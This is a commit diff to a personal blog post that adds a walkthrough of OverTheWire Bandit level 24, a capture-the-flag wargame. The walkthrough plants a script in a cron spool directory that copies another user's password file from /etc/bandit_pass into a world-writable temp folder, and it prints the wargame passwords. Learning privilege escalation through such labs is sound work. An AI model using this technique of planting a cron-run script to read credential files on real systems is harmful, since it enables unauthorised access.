

Before and after one commit to danieldavidson/danieldavidson.github.io, a Jekyll site: the page built from _posts/2021-04-11-overthewire-bandit-21-25.md, in a window 1280 px wide and 1400 px high, scrolled down 4265 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4461 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-04-11-overthewire-bandit-21-25.md

````diff
--- a/_posts/2021-04-11-overthewire-bandit-21-25.md
+++ b/_posts/2021-04-11-overthewire-bandit-21-25.md
@@ -181,3 +181,79 @@ bandit22@bandit:/etc/cron.d$
 > **Password:** jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
 
 ---
+
+## Bandit 24
+
+[http://overthewire.org/wargames/bandit/bandit24.html](http://overthewire.org/wargames/bandit/bandit24.html)
+
+A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
+
+**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
+
+**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
+
+More cron stuff, let's see what the script does:
+
+```console
+bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
+#!/bin/bash
+
+myname=$(whoami)
+
+cd /var/spool/$myname
+echo "Executing and deleting all scripts in /var/spool/$myname:"
+for i in * .*;
+do
+    if [ "$i" != "." -a "$i" != ".." ];
+    then
+        echo "Handling $i"
+        owner="$(stat --format "%U" ./$i)"
+        if [ "${owner}" = "bandit23" ]; then
+            timeout -s 9 60 ./$i
+        fi
+        rm -f ./$i
+    fi
+done
+```
+
+So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make our script that writes the contents of `/etc/bandit_pass/bandit24` somewhere.
+
+Make sure you give the script and the folder the correct permissions.
+
+```console
+bandit23@bandit:/etc/cron.d$ mkdir /tmp/bd2324
+bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/bd2324
+bandit23@bandit:/etc/cron.d$ cd /tmp/bd2324
+bandit23@bandit:/tmp/bd2324$ cat > myscript2324.sh
+#!/bin/bash
+cat /etc/bandit_pass/bandit24 > /tmp/bd2324/password
+^C
+bandit23@bandit:/tmp/bd2324$ chmod 777 myscript2324.sh
+```
+
+Okay now that we've create the script and gave it all the proper permissions...we just need to copy that script to correct path contained within the `cronjob_bandit24.sh` script.
+```console
+bandit23@bandit:/tmp/bd2324$ cp myscript2324.sh /var/spool/bandit24/
+```
+
+Now we wait for cron to execute the script.
+
+**Pro TIP**: If you don't want to type ls a gazillion times waiting for the file to appear use `watch -n 1 -x ls /tmp/bd2324`. Watch essentially repeats the `ls` command at our directory every 1 second.
+
+```console
+bandit23@bandit:/tmp/bd2324$ ls -al /var/spool/bandit24/
+total 153
+drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
+drwxr-xr-x 6 root   root    4096 May 3 2015 ..
+bandit23@bandit:/tmp/bd2324$ ls
+password myscript2324.sh
+bandit23@bandit:/tmp/bd2324$ cat password
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
+```
+
+Script got deleted, which means cron executed it and we got our password!
+
+> **Username:** bandit24
+> **Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
+
+---
````
